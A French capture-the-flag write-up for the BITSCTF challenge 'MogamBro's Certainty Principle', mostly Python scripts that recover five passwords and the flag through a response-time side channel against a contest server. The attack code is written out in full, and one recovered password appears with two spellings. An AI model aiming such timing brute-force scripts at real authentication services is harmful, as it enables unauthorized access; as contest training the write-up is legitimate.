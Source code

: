 ### Énoncé

> **MogamBro's Certainty Principle**
> MogamBro's Certainty Principle states that the more accurate you are the more delay you'll face. Δt • Δp ≥ frustration / ram_space; where p is precission and t is time.

```bash
nc 20.244.33.146 4445
```


### Résolution

Connectons nous au serveur avec netcat dans un terminal.

![Capture du challenge](1.png)

On peut remarquer un temps de réponse est donné pour chaque requête. On peut aussi remarquer que parfois il est un peu plus long de 0.1 seconde. On déduit ensuite que le temps de réponse est calculé en fonction de la précision du premier caractère du mot de passe, puis s'il est bon du suivant etc.

#### Niveau 1

Faisons alors un script qui va tester chaque caractère possible, trouver le bon et faire de même avec le suivant jusqu'à trouver le bon mot de passe.

```python
import socket
import re
from time import sleep

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.sendall((password + '\n').encode())
    s.recv(1024) # 'Enter password: \n'
    result = s.recv(1024) # 'Incorrect password\nTime taken:  0.40008874246294085\n'
    s.recv(1024) # ''
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'AZERTYUIOPQSDFGHJKLMWXCVBNazertyuiopqsdfghjklmwxcvbn1234567890 ':
        time = test(password + l)
        if time > 0.1 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le mot de passe : `SLOPPYTOPPYWITHATWIST`.


#### Niveau 2

Sauf qu'il nous indique désormais : *Congratulations! You have unlocked the door to level 2!*. Et redemande un autre mot de passe.

On peut alors réutiliser le même script pour trouver le mot de passe du niveau 2.

```python
import socket
import re
from time import sleep, time

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'AZERTYUIOPQSDFGHJKLMWXCVBNazertyuiopqsdfghjklmwxcvbn1234567890 ':
        time = test(password + l)
        if time > 0.05 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le mot de passe : `GINGERDANGERHERMOINEGRANGER`.


#### Niveau 3

On atteint alors le niveau 3, et on peut réutiliser le même script pour trouver le mot de passe du niveau 3.
Petite optimisation en ordonnant les lettres par fréquence d'apparition.

```python
import socket
import re
from time import sleep

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall('GINGERDANGERHERMOINEGRANGER\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'ETAOINSHRDLCUMWFGYPBVKJXQZetaoinshrdlcumwfgypbvkjxqz1234567890 _-{}':
        time = test(password + l)
        print(l + ' (' + str(time) + ')')
        if time > 0.01 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le troisième mot de passe : `HICKERYDICKERYDOCKSKIBIDIDOBDOBPOP`.


#### Niveau 4

```python
import socket
import re
from time import sleep

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall('GINGERDANGERHERMOINEGRANGER\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall(('HICKERYDICKERYDOCKSKIBIDIDOBDOBPOP\n').encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'ETAOINSHRDLCUMWFGYPBVKJXQZetaoinshrdlcumwfgypbvkjxqz1234567890 _-{}':
        time = test(password + l)
        print(l + ' (' + str(time) + ')')
        if time > 0.005 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le quatrième mot de passe : `SNICKERSNORTSUPERSECURESHORTSHAKINGSAFARISADISTIL`.

#### Niveau 5

Bon là ça devient vraiment très long puisque ça remet tous les anciens mots de passe avant. Du coup on va optimiser un peu le truc avec du multithreading : parfois il se trompe, mais c'est 10 fois plus rapide.

```python
import socket
import re
from time import sleep
import threading

def test(password, results):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall('GINGERDANGERHERMOINEGRANGER\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall(('HICKERYDICKERYDOCKSKIBIDIDOBDOBPOP\n').encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall(('SNICKERSNORTSUPERSECURESHORTSHAKINGSAFARISADISTIC\n').encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 4!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    results[password] = float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''
while True:
    threads = []
    results = {}
    for l in 'ETAOINSHRDLCU':
        thread = threading.Thread(target=test, args=(password + l, results))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()
    for test_password, time in results.items():
        print(test_password + ' (' + str(time) + ')')
        if time > 0.003 * len(test_password):
            password = test_password
            break
    sleep(0.2)
    threads = []
    results = {}
    for l in 'MWFGYPBVKJXQZ':
        thread = threading.Thread(target=test, args=(password + l, results))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()
    for test_password, time in results.items():
        print(test_password + ' (' + str(time) + ')')
        if time > 0.003 * len(test_password):
            password = test_password
            break
    sleep(0.2)
    print(password)
```

On obtient alors le cinquième mot de passe : `BOOMPOPWHIZZLESKIZZLERAPTRAPMEOWBARKHOWLBUZZDRUMBURPFARTPOOP`.

Et c'est enfin enfin le flag : **BITSCTF{c0n6r47ul4710n5_0n_7h3_5ucc355ful_3n7ry}**
